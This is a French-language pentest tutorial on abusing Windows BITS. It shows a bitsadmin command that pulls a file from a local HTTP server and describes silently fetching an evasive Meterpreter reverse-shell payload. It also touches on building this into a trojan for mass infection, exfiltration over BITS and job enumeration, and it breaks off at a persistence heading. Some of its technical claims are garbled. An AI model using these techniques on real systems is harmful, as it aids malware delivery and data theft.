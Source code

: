 Introduction à BITS : 
BITS veux dire Background Intelligent Transfer Service est un service très utilisé pour télécharger des fichiers à partir ou vers des serveurs Web HTTP et partage de fichier SMB. BITS est suffisamment autonome pour réduire un maximum les couts pour que se soit le plus optimisé possible pour l'utilisateur ou le programmeur car oui BITS peux aussi etre utile en programmation, BITS est programmable en C/C++ et peut etre appellé dans du .NET tout cela grace à COM.
BITS possède une version CLI qui s'appelle BitsAdmin et des commandes incluses dans le powershell. BITS peut etre utilisé pour de l'administration avec des systèmes de Logs depuis des actions comme /transfer ou les protocoles SANP ( protocoles de notification ) exemple : SetNotifyFlag. En pentest, BITS est très utilisé pour du EOAP ( Exfiltration over Alternative Protocol).
Utilisation de bitsadmin et analyse du traffics :
bitsadmin /transfer howtohack http://192.168.1.45:8000/ak.txt "C:\Users\hth\Documents\ak.txt"

DISPLAY : nom de job
FILE : nombre de fichier
BYTES : tailles du fichier " c le hack"
PRIORITY : correspond à l'ordre de téléchargement
STATE : Transféré, état du job.
on peux aussi l'utiliser avec le modules du PowerShell : BitsTransfer
Import-Module BitsTransfer
BITS supporte par défaut le transfère asynchrone mais vous pouvez y précisez via l'argument -Asychronous, pour la validation du fichier il faut utiliserComplete-BitsTransfer.
Téléchargement d'un reverse shell meterpreter silencieusement : 

on lance le server HTTP et on télécharge la charge utile evasive via BITS en asynchrone. Dans un cadre de contamination en masse on peux rendre le téléchargement automatique en C ou C++ dans une tierce parti de Trojan, mais dans le cadre éducatif on reste dans des choses simple.
BITSAdmin enumeration : 

# listé les jobs
bitsadmin /list
# avoir plus d'info sur un job
bitsadmin /info 482FCAF0-74BF-469B-8929-5CCD028C9499 /verbose
# géré les jobs actuels
bitsadmin /monitor
# un seul job à géré
bitsadmin /monitor 482FCAF0-74BF-469B-8929-5CCD028C9499
# info complète (Notify, Proxy, GUID...) sur tout les jobs actif :
bitsadmin /info
Logs BITS :   C:\Windows\System32\winevt\Logs\Microsoft-Windows-Bits-Client%4Operational 

BITS Enumeration depuis des requetes SC et depuis la db QMGR & ESE : 
QMGR signifie Querie Manager, il enregistre chaque activité de chaque BITS Job dans une base de données mais c'est chiffré, il faut utiliser hex editor ou autre editeur de base16 pour ésperer dump quelque chose.
 ici ce qui nous interesse c'est QMGR.db car c'est que sont loggé les infos des BITS Job


Pesistence avec BITS : 
